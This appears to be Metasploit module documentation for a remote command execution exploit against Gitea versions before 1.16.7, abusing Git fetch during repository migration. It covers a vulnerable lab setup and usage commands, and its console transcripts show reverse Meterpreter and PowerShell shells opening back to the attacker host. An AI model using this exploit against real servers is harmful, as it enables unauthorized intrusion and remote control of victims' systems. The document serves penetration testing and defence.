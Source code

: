 ## Vulnerable Application

[Gitea](https://gitea.io/) is a painless self-hosted Git service community
managed lightweight code hosting solution written in Go.

This module has been tested successfully on Gitea versions:
* 1.16.6 with Git 2.30.3 (Docker)
* 1.16.6 with Git 2.30.2 (Windows 10)

### Description

This module exploits Git fetch command in Gitea repository migration process that leads to a remote command execution on the system.
This vulnerability affect Gitea before 1.16.7 version.

The migration process require valid Git repository address so the module will
use the Gitea target itself by creating a temporary repository. This scenario
won't work with [Gitea default configuration](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini)
because `ALLOW_LOCALNETWORKS` is disabled. However, it will be ignored when
[ALLOWED_DOMAINS](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini#L2289)
is set, but it must be set to all domain with `*` for this scenario to work.

There is an update in the Git-remote command line starting from version 2.34.0
which refuses to update the branch pull request URL to the current path.

```
\testrepo.git>git version
git version 2.34.0.windows.1
\testrepo.git>git remote add -f master ./
Updating master
fatal: bad object refs/pull/0/head
error: ./ did not send all necessary objects

error: Could not fetch master
```
This causes the exploit to fail because Git-fetch will not executed if the
Git-remote fail. Details of these limitation are explained
[here](https://tttang.com/archive/1607/)

### Source and Installers

* [Source Code Repository](https://github.com/go-gitea/gitea/)
* [Installers](https://dl.gitea.io/gitea/1.16.6)
* [Docker](https://docs.gitea.io/en-us/install-with-docker/)

### Docker installation
1. create `docker-compose.yml` file
```
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.16.6
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```
2. run `docker-compose up`
3. append `ALLOW_LOCALNETWORKS` in the configuration file.
```
:~$ cat << EOF >> gitea/gitea/conf/app.ini
> [migrations]
> ALLOW_LOCALNETWORKS = true
> EOF
```
4. Navigate to the localhost port 3000 and finish the installation. Note that
   the first registered user will automatically become administrator so make
   sure to set the administrator username and password upon installation.

## Verification Steps

1. Navigate to `/user/sign_up` and register normal user
2. Do: `use unix/webapp/gitea_git_fetch_rce`
3. Do: `set RHOSTS [ips]`
4. Do: `set LHOST [lhost]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The Gitea valid username to authenticate

### USERNAME
The Gitea valid password to authenticate

### HTTPDELAY
Number of seconds the web server will wait to deliver payload (default: 12)

## Scenarios
### Successful exploitation of Gitea 1.16.6 on Docker

```
msf6 > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_fetch_rce) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf6 exploit(multi/http/gitea_git_fetch_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(multi/http/gitea_git_fetch_rce) > set username msf
username => msf
msf6 exploit(multi/http/gitea_git_fetch_rce) > set password qwerty
password => qwerty
msf6 exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/d8s1ZLsl/topics
[*] Creating repository "u8W2Lu24p"
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgAB..."]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAA...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Migrating repository
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:60744) at 2022-10-03 18:40:15 +0700
[*] Server stopped.

meterpreter > getuid
Server username: git
```

### Successful exploitation of Gitea 1.16.6 on Windows 10

```
msf6 > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_fetch_rce) > set target 2
target => 2
msf6 exploit(multi/http/gitea_git_fetch_rce) > set rhosts 192.168.0.21
rhosts => 192.168.0.21
msf6 exploit(multi/http/gitea_git_fetch_rce) > set lhost 192.168.0.104
lhost => 192.168.0.104
msf6 exploit(multi/http/gitea_git_fetch_rce) > set username yo
username => yo
msf6 exploit(multi/http/gitea_git_fetch_rce) > set password password
password => password
msf6 exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 192.168.0.104:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.104:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5/pulls
[*] Adding hardcoded uri /api/v1/repos/yo/Gu5em72aTm5/topics
[*] Creating repository "ExcLF0xBxG"
[+] Repository created
[*] Executing command: powershell.exe -nop -w hidden -noni -ep bypass "&([...
[*] Migrating repository
[*] Powershell session session 1 opened (192.168.0.104:4444 -> 192.168.0.21:49499) at 2022-10-03 19:03:38 +0700
[*] Migrating repository
[*] Powershell session session 1 opened (192.168.0.104:4444 -> 192.168.0.21:49499) at 2022-10-03 19:03:38 +0700
[*] Server stopped.

PS C:\Users\msf\Downloads\data\gitea-repositories\yo\gu5em72atm5.git> whoami
msf
```

### Failed exploitation due to migration settings

```
msf6 > use exploit/multi/http/gitea_git_fetch_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_fetch_rce) > set rhosts 172.17.0.2
rhosts => 172.17.0.2
msf6 exploit(multi/http/gitea_git_fetch_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(multi/http/gitea_git_fetch_rce) > set username msf
username => msf
msf6 exploit(multi/http/gitea_git_fetch_rce) > set password qwerty
password => qwerty
msf6 exploit(multi/http/gitea_git_fetch_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/9JDwz2xTngq7w/topics
[*] Creating repository "P7EpcvA"
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAA..."]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAAB...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Migrating repository
[*] Server stopped.
[-] Exploit aborted due to failure: unexpected-reply: Unable to migrate repo:
You can not import from disallowed hosts, please ask the admin to check
ALLOWED_DOMAINS/ALLOW_LOCALNETWORKS/BLOCKED_DOMAINS settings.
[*] Exploit completed, but no session was created.
```
